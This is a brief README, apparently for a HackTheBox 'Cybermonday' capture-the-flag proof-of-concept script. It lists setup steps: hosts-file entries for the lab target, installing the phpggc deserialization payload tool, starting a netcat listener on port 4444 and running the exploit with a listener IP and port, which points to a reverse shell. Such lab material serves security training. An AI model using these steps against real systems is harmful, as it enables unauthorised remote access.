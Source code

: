 # HTB_Cybermonday

Usage: python3 HTB_Cybermonday_poc.py \<listener ip\> \<listener port\>

<p>1. echo "10.10.11.228 cybermonday.htb" >> /etc/hosts</p>
<p>2. echo "10.10.11.228 webhooks-api-beta.cybermonday.htb" >> /etc/hosts</p>
<p>3. apt install phpggc</p>
<p>4. nc -nvlp 4444</p>
<p>5. python3 HTB_Cybermonday_poc.py 10.10.14.1 4444</p>
